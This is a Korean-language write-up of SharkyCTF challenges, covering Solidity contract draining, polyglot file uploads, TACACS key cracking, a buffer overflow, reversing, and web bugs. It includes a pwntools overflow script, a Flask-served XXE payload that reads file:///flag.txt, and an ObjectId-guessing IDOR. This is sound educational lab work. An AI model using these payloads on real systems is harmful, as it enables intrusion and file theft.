



# SharkyCTF writeup

| |
[Blockchain](#blockchain-2)

- [Warmup](#warmup97)
- [Logic](#logic195)

[Misc](#misc-1)

- [Erwin's file manager](#erwins-file-manager197)

[Network](#net-1)

- [RattataTACACS](#RattataTACACS167)

[Pwnable](#pwn-1)

- [Give away 0](#give-away-0160)

[Reversing](#rev-3)

- [Simple](#simple89)
- [z 3 r o b o t w a v e s](#z-3-r-o-b-o-t-w-a-v-e-s188)
- [Miss Direction](#miss-direction400)

[Web](#web-3)

- [XXExternalXX](#xxexternalxx70)
- [Logs In ! Part 1](#logs-in--part-1155)
- [Containment Forever](#containment-forever266)

전체적으로 플래그를 **절대** 게싱하지 못하는 문제였다. 길기도 하고 해시가 들어 있었다..ㄷ

출제자 write-up은 [여기](https://gitlab.com/Nofix/sharkyctf/)서 보실 수 있습니다.

## Blockchain (2)

블록체인 문제는 한 사이트로 이루어진다.\
블록체인 문제를 처음 봤는데 처음은... 생각보다 할만하다.\
약간 게싱 문제인 것 같은데 뒷부분은 하나도 모르겠다


Help를 보면 위와 같다.\
MetaMask플러그인을 설치하고 테스트넷을 사용한다. ~~메인넷에 있는 이더면 어땠을까~~\
그리고 각 문제마다 Instanciate를 눌러서 contract를 생성하고\
[Ethereum IDE](https://remix.ethereum.org/)를 사용해서 이 contract와 상호작용한다\
그리고 나서 생성한 contract에 있는 모든 돈을 뺏으면 된다.

### Warmup(97)

```ts
pragma solidity = 0.4.25;

contract Warmup {
    bool public locked;

    constructor() public payable {
        locked = true;
    }

    function unlock() public payable {
        require(msg.value == 0.005 ether);
        locked = false;
    }

    function withdraw() public payable {
        require(!locked);
        msg.sender.call.value(address(this).balance)();
    }
}
```

withdraw 함수에 돈을 보내는 코드가 보이는 것 같고, 그 위에 `requre(!locked)`라고 되어있는 것으로 보아 locked를 false로 만들어야 할 것 같다.

locked를 false로 만들 수 있는 함수는 `unlock`이고 그러면 그것을 호출하면 된다.\
unlock이 성공적으로 호출 되기 위해선 0.005 ether를 보내야한다.

ethereum IDE에서 컴파일을 한 후, contract를 추가 해주면 다음과 같이 뜬다\


위쪽 value에 다음과 같이 0.005 ether를 넣어주고 unlock을다누른다\


그리고 transaction이 confirm된 후 withdraw를 클릭하면 된다.

> shkCTF{th4t_w4s_4n_1ns4n3_w4rmup_65c8522c0f36ed2566afa7}

### Logic(195)

```ts
pragma solidity = 0.4.25;

contract Logic {
    address public owner;
    bytes32 private passphrase = "th3 fl4g 1s n0t h3r3";

    constructor() public payable {
        owner = msg.sender;
    }

    function withdraw() public {
        require(msg.sender == owner);
        msg.sender.call.value(address(this).balance)();
    }

    function claim(bytes32 _secret) public payable {
        require(msg.value == 0.05 ether && _secret == passphrase);
        owner = msg.sender;
    }
}
```

나머지는 전과 비슷한데 다만 \_secret이 있다. 혹시나 해서 \_secret에 `th3 fl4g 1s n0t h3r3`를 넣어 봤지만 bytes32가 아니라 string이어서 되지 않았다. 그럼 간단하게 이걸 bytes32로 바꾸면 되지 않을 까 생각해서 solidity string to bytes32로 검색해 변환했다.

변환한 값 `0x74683320666c3467203173206e30742068337233000000000000000000000000`와 0.05 ether를 보내니 성공적으로 됐고, withdraw를 호출해 플래그를 얻었다.

> shkCTF{sh4m3_0n_y0u_l1ttl3_byt3_f0f6145540ea8c6ee8067c}

## Crypto (0)

No solve :\

## Forensics (0)

:\

## Misc (1)

### Erwin's file manager(197)

Upload를 보면 다음과 같은 flask 코드가 있다.

```py
@app.route('/upload', methods=["POST"])
def get_file():
    # Wenn die Anfrage eine Datei enthält
    if 'file' in request.files:
        new_file = request.files["file"]
        filename = save_file(new_file)

        # Überprüfen Sie das Dateiformat
        is_ELF = check_ELF(filename)
        is_PDF = check_PDF(filename)
        is_JAR = check_JAR(filename)
        is_JPG = check_JPG(filename)

        if is_ELF and is_JAR and is_PDF:
            put_aside(filename)
            return upload(msg=SECOND_PART_OF_FLAG)
        elif is_ELF and is_JAR:
            put_aside(filename)
            return upload(msg=FIRST_PART_OF_FLAG)
        elif is_JPG and is_JAR:
            put_aside(filename)
            return upload(msg=THIRD_PART_OF_FLAG)
        else:
            # Datei löschen
            remove(filename)
            return upload(error="Bad file")
    else:
        return upload(msg="No file detected")
```

`check~~~` 함수가 어떻게 생겼는지는 알 수 없지만, 예측을 해보면 파일의 signature가 있는지 보는 것 같다. 그래서 단순히 elf, jar, pdf, jpg 파일을 하나씩 구해서 적절히 조합해 풀었다.

이때 pdf파일의 버전 때문에 조금(?) 고생했다.
pdf파일 버전이 1.2일때 잘 된다.

지금 소스코드를 확인해 보니깐 check 함수는 magic모듈과 직접 짠 코드를 사용해서 확인한다.

> shkCTF{Schr0diNgeR\_\_w4s_A_gRea7\_\_p01yg1o7_4e78011325dfbe4a05fd533ea422cc94}

## Net (1)

### RattataTACACS(167)

wireshark로 까보면 TFTP통신을 하는 쪽에서 key 7으로 시작하는 패킷을 볼 수 있다.\
`tacacs-server host 192.168.1.100 key 7 0325612F2835701E1D5D3F2033`

[password cracker](https://www.ifm.net.nz/cookbooks/passwordcracker.html)를 사용해서
키를 알아낼 수 있었다.

key는 `AZDNZ1234FED`이고, 이를 다음과 같이 wireshark preferences에 넣어주면 TACACS+ 패킷을 해석할 수 있다.


> shkCTF{T4c4c5_ch4ll3n63_br0}

## Pwn (1)

### Give away 0(160)

바이너리 안에 main, vuln, win_func 함수가 있다.\
main에서 vuln을 호출하고 vuln에서 fgets로 stdin에서 0x32만큼 읽는 구조이다.

vuln에서 RET주소를 win_func주소로 덮으면 된다.

32bit 바이너리인 줄 알았는데 64bit였다... 이것 때문에 잠깐 헤맸다.

```py
from pwn import *

e = ELF("./0_give_away")
p = remote("sharkyctf.xyz", 20333)

win_addr = e.symbols['win_func']
print(win_addr)

code = "A" * 0x20
code += "A" * 8  # SFP
code += p64(win_addr)

p.sendline(code)
p.interactive()
```

> shkCTF{#Fr33_fL4g!!\_<3}

## Rev (3)

### Simple(89)

[asm코드](Rev/simple.asm)를 준다. 어떠한 아키텍처를 특정해서 만들어진 것은 아니기에 컴파일 할 수 있어 보이지는 않는다.

그럼 직접 어셈블리 코드를 해석해야한다.

```py
some = [10, 2, 30, 15, 3, 7, 4, 2, 1, 24, 5, 11, 24, 4, 14,
        13, 5, 6, 19, 20, 23, 9, 10, 2, 30, 15, 3, 7, 4, 2, 1, 24]
second = [0x57, 0x40, 0xa3, 0x78, 0x7d, 0x67, 0x55, 0x40, 0x1e, 0xae, 0x5b, 0x11, 0x5d, 0x40, 0xaa,
          0x17, 0x58, 0x4f, 0x7e, 0x4d, 0x4e, 0x42, 0x5d, 0x51, 0x57, 0x5f, 0x5f, 0x12, 0x1d, 0x5a, 0x4f, 0xbf]
print("some len: %d" % len(some))
print("second len: %d" % len(second))

#! rcx = payload length
#! rdx = end address of payload

# dil: 8bit (ff) -> a char of payload

#! al = payload from back
#! dil = some from back

#! al += dil

#! rax ^= 42
#! r10 = second from back
# a == r10

flag = ""

for i in range(len(some)):
    flag += chr((second[i] ^ 42) - some[i])

print(flag)
```

설명은 여기에 ~~라업 쓰기 귀찮아서 따로 설명 안하는건 안 비밀~~

> shkCTF{h3ll0_fr0m_ASM_my_fr13nd}

### z 3 r o b o t w a v e s(188)

IDA로 까면 check_flag 함수에서 플래크가 맞는지 체크하고 맞다면 플래그는 `shkCTF{입력값}`이다.

코드가 제법 길어서(100줄) [여기](Rev/z3_robot_get_flag.py)로 대체

> shkCTF{cl4ss1c_z3\_\_\_t0_st4rt\_:)}

### Miss Direction(400)

후.. 원래 정적으로 하려고 했는데 동적으로 해야 가능한? 문제로 보인다.\
이유는 TLSCallback에서 바이트 코드를 동적으로 바꾼다.

원래 main함수에서 check를 타고 들어가는데 이는 페이크\
실제로 check함수에서 볼 수 있는 플래그는 앞뒤 괄호를 제외하고 23자리로\
`shkCTF{definitly_not_the_flagg}`이다.

여기서 TLS콜백이란, main 함수 전에 실행되어서
안티 디버깅에 주로 사용되는 것이라고 한다.

아니나 다를까 TLS콜백에 보면 byte_404038 == 1 이면 ExitProcess를 하는 것으로 보아
안티 디버깅 코드가 들어있고, 아무리 봐도 플래그와 연관된 것은 보이지 않는다.

그 전 sub_4013C0에서 디버깅을 탐지 하는데 `sp-analysis failed`가 발생해서 분석을 하지 못했다. 그래서 동적 디버깅을 했다. 어처피 anti-disas가 있어서 동적으로 할 수밖에 없었다.

무튼 x64dbg로 안티 디버깅을 요리조리 뚫고 들어가면
루프를 돌면서 코드가 수정되는 것을 볼 수고있고
코드가 모두 수정된 후 보면 char 배열과 밑에 복호화(암호화) 코드가 있다

암호화가 ( X + 0x55 ) ^ 0x42 로 이루어 지므로 반대로
주어진 char 배열을 xor한 후 빼면 된다

```py
# in TLS callback (can't analyze in IDA)
a = 0x8b838af6facb8383f5f4fa828af68e86818bf6f9c7c783
a = hex(a)[2:]

for i in range(23):
    print(chr((int(a[i*2:i*2+2], 16) ^ 0x42) - 0x55), end="")
```

올려둔 바이너리는 안티 디버깅 패치를 한 바이너리다... 만 디버거에서 정상적인 실행은 안될 것이다.

> shkCTF{tls_c4llbacks_wont_f00l}

## Steganography (0)

:\

## Web (3)

### XXExternalXX(70)

문제 제목부터 XXE라고 강조를 하고 있다.
Show stored data를 누르면 News를 보여주는데
Uri가 `http://xxexternalxx.sharkyctf.xyz/?xml=data.xml`인 것으로 보아
xml파일을 넘겨주면 될 것 같다
xml을 비워두면 에러 메시지가 그대로 출력 되는데
file_get_contents를 사용하고 있다.

혹시나 해서 requestbin을 만들어 넣어봤더니 GET요청이 왔다.

그래서 바로 xml코드를 짰다. 그런데 여기서 봐야할 것은 파일 구조인데, 이것은
`http://xxexternalxx.sharkyctf.xyz/data.xml`로 들어가면 data.xml파일 구조가 보이기 때문에
그대로 따라 적으면 된다.

```py
from flask import Flask

app = Flask(__name__)

payload = """<!DOCTYPE data[
<!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<root>
<data>
&xxe;
</data>
</root>

"""


@app.route("/")
def index():
    return payload


app.run("0.0.0.0", 3000)
```

> shkCTF{G3T_XX3D_f5ba4f9f9c9e0f41dd9df266b391447a}

### Logs In ! Part 1(155)

symfony가 development모드로 돌아가고 있어서 노출이 된다.

symfony로 들어가서 Last 10을 클릭하면 이상한 endpoint가 찍혀있다.

그곳으로 이동하면 플래그가 보인다.




> shkCTF{0h_N0_Y0U_H4V3_4N_0P3N_SYNF0NY_D3V_M0D3_1787a60ce7970e2273f7df8d11618475}

### Containment Forever(266)

Confinement와 Flag를 클릭하면 리스트를 볼 수 있다.



여기서 ObjectId라는 것은 MongoDB에서 할당되는 Unique한 id라고 보면 된다.
각각의 Details를 클릭하면 아래와 같은 주소로 이동하고, Flag의 id를 얻어내면 될 것으로 보인다.

http://containment-forever.sharkyctf.xyz/item/5e70da94d7b1600013655bb5

자동으로 생성되는 ObjectId는 완전한 랜덤 값이 아니라서 충분히 맞출 수 있는 구조이다.

https://docs.mongodb.com/manual/reference/method/ObjectId/ \
여기를 보면 알 수 있듯이 ObjectId는 timestamp, 랜덤값, 증가 값으로 이루어져있다.

랜덤값은 증가 값이 다 차지 않는 이상 바뀌지 않는 것으로 알고 있다.
따라서 위 사진에 올라온 날짜와 시각이 다 나와 있어서 이를 바탕으로 만들 수 있다.

아무것도 없이 파이썬에서 timestamp를 계산하려면 우리나라가 UTC+9 이므로
나와있는 숫자에서 9를 더해주어서 구한다. (아니면 다른 방법을 써도 된다)

```py
>>> hex(int(time.mktime(datetime.strptime("2020-03-21 18:13:22", "%Y-%m-%d %H:%M:%S").timetuple())))
'0x5e75dab2'

>>> hex(int(time.mktime(datetime.strptime("2020-04-14 00:50:18", "%Y-%m-%d %H:%M:%S").timetuple())))
'0x5e948a3a'
```

위에서 timestamp를 제외한 부분에는 d7b1600013655bb5 ~ d까지 나와있으니깐
적당히 앞뒤를 바꿔가면서 손루트 포싱 해주면 된다.

그 결과 ObjectId는 `5e75dab2d7b1600013655bb8`, `5e948a3ad7b1600013655bbf`였다.

> shkCTF{IDOR_IS_ALS0_P0SSIBLE_W1TH_CUST0M_ID!\_f878b1c38e20617a8fbd20d97524a515}
